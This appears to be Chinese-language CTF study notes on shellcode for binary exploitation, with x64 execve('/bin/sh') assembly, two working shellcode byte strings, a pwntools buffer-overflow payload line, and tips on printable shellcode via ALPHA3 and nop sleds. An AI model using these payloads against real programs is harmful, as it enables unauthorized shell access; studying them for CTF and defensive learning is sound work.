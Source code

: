 ```python
push rsp
pop rdi
#这行代码将 al 寄存器设置为值 59 , 59 是 execve 系统调用的系统调用号。
mov al, 59
#这行代码触发系统调用。
syscall
""

#32位短shellcode
#64位短shellcode
shellcode_x641="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
shellcode_x642="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

```

##### 注意事项：

**leave:**  
leave的作用相当于MOV SP,BP；POP BP。
因为leave指令会释放栈空间，因此我们不能使用目标地址后面的24字节。
目标地址后的8个字节也不能存放（这里需要存放返回地址）。故我们的shellcode只能 放在目标首地址后的 24+8后的地址。

例如：溢出垃圾数据 +（可执行目标地址+32）+ shellcode

```python
payload = cyclic(0x10+8) + p64(v5 + 24+8) + shellcode
```

**mmap： ** 

buf = mmap(0, 0x400u, 7, 34, 0, 0); ：这行代码使用 mmap 函数分配一块内存区域，将其起 始地址保存在变量 buf 中。
此时在buf中的shellcode仍然可以执行。

**输入字符限定：**

对于shellcode进行字符筛选，我们只能使用有限的字符进行shellcode编写

使用pwntools生成一个shellcode，没法直接输出，有乱码，将shellcode重定向到一个文件中 切换 到alpha3目录中，使用alpha3生成string.printable 。string.printable，就是可见字符shellcode。

```
cd alpha3
python ./ALPHA3.py x64 ascii mixedcase rax --input="存储shellcode的文件" > 输出
文件
#存在检查：
shellcode = '\x00\xc0'  + asm(shellcraft.sh()) 
```

##### nop sled:

nop sled 是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过输入字符串注入攻击代码。在实际的攻击代码前注入很长的 nop 指令 （无操作，仅使程 序计数器加一）序列， 只要程序的控制流指向该序列任意一处，程序计数器逐步加一，直到到达攻击代码的存在的地址， 并执行。

将 shellcode 填充为以 nop 指令开头 ( 0x90 )进行滑栈。
